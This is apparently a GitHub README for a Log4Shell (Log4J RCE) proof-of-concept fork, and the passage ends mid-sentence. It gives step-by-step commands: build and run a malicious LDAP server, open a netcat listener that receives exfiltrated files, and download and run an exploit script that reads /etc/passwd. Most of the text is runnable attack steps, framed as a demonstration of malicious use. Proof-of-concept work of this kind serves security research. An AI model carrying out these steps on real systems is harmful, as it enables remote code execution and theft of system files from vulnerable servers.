 This is a fork of https://github.com/HyCraftHD/Log4J-RCE-Proof-Of-Concept, which did the legwork in getting remote execution. This repo is only just demonstrating how it could be used maliciously. 


# Steps to Run 
(1) Clone and run this repo: 
```bash
git clone https://github.com/srt4/Log4J-RCE-Proof-Of-Concept/tree/update-to-read-files` 
./gradlew build runMain
``` 

Leave it open - it's the "LDAP Server". 

(2) Run: `nc -l 8080`

This is where the file will be posted. 


(3) Download and run the Groovy script using a vulnerable version of log4j2, as well as setting the flag to mimic older JVMs (n.b. it's unclear how many of these exist in production, but likely to be few. The newer JVMs can still be exploited but likely less severely)

```bash
curl https://gist.githubusercontent.com/srt4/4fb4b537bb48599279e0380e097081e2/raw/76a0051b744d5afa6babe346e5a706a31ff39025/log4j-rce.groovy > log4j-rce.groovy
groovy log4j-rce.groovy '//etc/passwd'
```

At this point, 